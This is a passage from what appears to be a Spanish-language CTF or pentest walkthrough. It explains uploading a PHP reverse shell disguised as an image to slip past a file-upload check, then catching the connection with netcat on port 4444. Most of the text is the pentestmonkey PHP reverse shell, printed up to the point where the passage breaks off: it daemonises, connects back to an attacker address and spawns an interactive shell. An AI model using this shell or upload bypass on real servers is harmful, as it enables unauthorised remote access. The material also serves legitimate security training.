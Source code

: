 Eso puede servirnos para algunas reverse shell que nos ayuden y modificarlas o usar el sitio de revshells y buscar alguna php y solo introducir los datos necesarios. Y entonces después de eso subimos la reverse shell como si fuera una imagen y sorpresiva
mente se sube sin ningún problema, y si apuntamos a donde se subio ese archivo podemos generar la sesión, solo hace falta dar clic derecho en la imagen.

Nos ponemos en escucha por el puerto asignado en en la reverse shell en este caso el 4444 con 
netcat.

```bash
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '<IP>';
$port = <PORT>;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);
```